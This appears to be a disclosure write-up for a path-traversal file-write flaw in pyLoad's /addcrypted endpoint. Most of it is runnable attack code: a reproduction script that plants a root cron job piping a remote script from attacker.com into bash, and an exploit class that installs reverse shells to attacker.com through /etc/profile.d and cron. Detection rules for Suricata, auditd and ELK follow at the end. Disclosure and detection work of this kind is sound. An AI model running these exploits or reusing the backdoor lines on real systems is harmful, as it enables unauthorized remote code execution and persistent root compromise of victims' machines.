


### Technical Characteristics
**Attack Vector**: Network (Unauthenticated HTTP Request)  
**Complexity**: Low (No Special Conditions)  
**Privileges**: None Required  
**User Interaction**: None  
**Scope Change**: Possible (Container → Host Escape)  
**Language-Specific Factors**:  
- Python `os.path.join()` behavior with absolute paths
- Lack of automatic path normalization
- Windows/Linux path separator differences


## Step-by-Step Reproduction Guide

#### 1. Setup Vulnerable Environment
```bash
# Clone vulnerable pyLoad version
git clone https://github.com/pyload/pyload
cd pyload
git checkout 06ea871c9d693045970166eb6572e4bea8644517

# Install dependencies
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt

# Start pyLoad (default port 8000)
python -m pyload.web --port 8000
```

#### 2. Exploit Execution
```python
import requests
import base64

TARGET = "http://localhost:8000/addcrypted"
MALICIOUS_CRON = """
* * * * * root curl -s http://attacker.com/mal.sh | bash
"""

payload = {
    "package": "../../../../etc/cron.d/pyload_exploit",
    "crypted": base64.b64encode(MALICIOUS_CRON.encode()).decode()
}

response = requests.post(TARGET, data=payload)
print(f"Exploit Status: {response.status_code}")
print(f"File Written: /etc/cron.d/pyload_exploit.dlc")
```

#### 3. Verification
```bash
# Check cron directory
ls -l /etc/cron.d/

# Expected malicious file:
# -rw-r--r-- 1 root root 78 Jul 15 12:34 pyload_exploit.dlc

# Monitor cron execution
tail -f /var/log/cron.log
```

#### 4. Expected Outcome
```
Jul 15 12:35:01 localhost CRON[PID]: (root) CMD (curl -s http://attacker.com/mal.sh | bash)
```

## Proof of Concept (Video Simulation)


## Vulnerable Code 
**File**: `src/pyload/webui/app/blueprints/cnl_blueprint.py`  
**Function**: `addcrypted()`  
**Lines**: 89-93

```python
# Original Vulnerable Code
package = request.form["package"]
dl_path = self.config.get("general", "storage_folder")

# UNSAFE PATH CONSTRUCTION
dlc_path = os.path.join(dl_path, package, f"{package}.dlc")

# INSECURE FILE WRITE
with open(dlc_path, mode="wb") as fp:
    fp.write(request.form["crypted"].encode())
```

**Vulnerability Chain**:
1. User-controlled `package` parameter taken directly from request
2. Path joined without validation: `os.path.join(dl_path, package)`
3. No normalization or path containment check
4. File written with full user control over path and content


## Exploitation Code (Advanced)
```python
import requests
import os
import base64

class pyLoadExploit:
    def __init__(self, target, dl_path="/downloads"):
        self.target = f"{target}/addcrypted"
        self.dl_path = dl_path
        
    def write_file(self, remote_path, content):
        """
        Writes arbitrary content to remote_path on target
        """
        # Calculate traversal depth
        base_depth = len(os.path.abspath(self.dl_path).split(os.sep))
        target_depth = len(remote_path.split(os.sep))
        traversal = "../" * (base_depth + target_depth - 1)
        
        payload = {
            "package": f"{traversal}{remote_path}",
            "crypted": base64.b64encode(content).decode()
        }
        
        return requests.post(self.target, data=payload)
    
    def deploy_backdoor(self):
        """Deploy persistent reverse shell"""
        return self.write_file(
            "/etc/profile.d/pyload_backdoor.sh",
            b"bash -i >& /dev/tcp/attacker.com/4444 0>&1"
        )
    
    def escalate_to_root(self):
        """Create root cron job"""
        return self.write_file(
            "/etc/cron.d/pyload_root",
            b"* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4445 0>&1'"
        )

# Usage
exploit = pyLoadExploit("http://victim:8000")
exploit.escalate_to_root()
```


### Forensic Detection Signatures
```suricata
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"pyLoad Path Traversal Attempt";
    flow:to_server, established;
    content:"POST"; http_method;
    content:"/addcrypted"; http_uri;
    content:"package="; http_client_body;
    pcre:"/package=[^&]*?\.\.\//";
    classtype:web-application-attack;
    sid:21004596;
    rev:1;
)
```

#### 2. File System Monitoring (FIM)
```yaml
# Auditd Rule
-w /etc/cron.d/ -p wa -k pyload_exploit
-w /var/lib/pyload/ -p wa -k pyload_webui
```

#### 3. Log Analysis (ELK Query)
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "source": "/var/log/pyload/pyload.log" } },
        { "regexp": { "message": ".*package=.*\.\..*" } }
      ]
    }
  }
}
```



